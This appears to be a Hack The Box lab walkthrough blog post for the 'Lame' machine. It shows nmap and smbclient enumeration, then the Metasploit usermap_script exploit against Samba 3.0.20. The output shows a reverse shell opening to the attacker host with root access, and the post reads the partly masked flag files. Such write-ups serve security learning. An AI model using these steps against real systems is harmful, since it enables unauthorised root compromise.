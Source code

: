 ```yaml
---
layout: post
title:  "HTB-Lame"
date:   2020-02-15 20:45:57 +0000
categories: HTB-Walkthrough
---
```


![lame](/assets/img/lame.png)

Lets kick this off by using nmap to scan the target
`nmap -A 10.10.10.3 |tee -a lame.txt`
The `-A` flag sets the scan to agressive...not always the best choice, but im in a bit of a mood!


```

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```


1st try anonymous ftp login and enum.

```plaintext

ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> pwd
257 "/"
ftp> cd ..

```

2nd try smbclient and port 445 enum.
{% highlight ruby %}

root@kali:~/HTB/prep/lame# smbclient -L 10.10.10.3
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
{% endhighlight %}

We can see that the target is running Samba 3.0.20-Debian, maybe it has some known 
vulnerability we can find, but first lets take the hint and explore `tmp` 

{% highlight ruby %}

root@kali:~/HTB/prep/lame# smbclient //10.10.10.3/tmp
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Nov  6 11:38:07 2019
  ..                                 DR        0  Sun May 20 20:36:12 2012
  orbit-makis                        DR        0  Wed Nov  6 11:25:31 2019
  .ICE-unix                          DH        0  Wed Nov  6 10:47:27 2019
  .X11-unix                          DH        0  Wed Nov  6 10:47:51 2019
  gconfd-makis                       DR        0  Wed Nov  6 11:25:31 2019
  5141.jsvc_up                        R        0  Wed Nov  6 10:48:34 2019
  .X0-lock                           HR       11  Wed Nov  6 10:47:51 2019

		7282168 blocks of size 1024. 5678328 blocks available
smb: \> 
{% endhighlight %}

Nothing immediately helpful here...so lets check Searchsploit for possible known exploits.

Searchsploit reveals a metasploit exploit for Samba 3.x
Ok lets see how effective it is...

Start up msfconsole, then:

`use exploit/multi/samba/usermap_script`
use the command `show options` to see what info is required to make this work...
`set rhosts 10.10.10.3`
pull the trigger with `exploit` command...


{% highlight ruby %}

msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.31:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo gcMvWCjjW9n0VrCc;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "gcMvWCjjW9n0VrCc\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.31:4444 -> 10.10.10.3:54951) at 2020-01-21 11:42:12 -0500

id
uid=0(root) gid=0(root)
cd /home
ls
ftp
makis
service
user
cd makis
ls
user.txt
cat user.txt
69xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxc5
cat /root/root.txt
92xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxdf
{% endhighlight %}

Oh, right....that was quick. I can see why the box gets its name from now;
Nobody in their right mind should still be running this Samba version!

A good easy box for beginners to get to have a go at the basic tools, and methodology.
Lets quickly move on to another box...



#######################

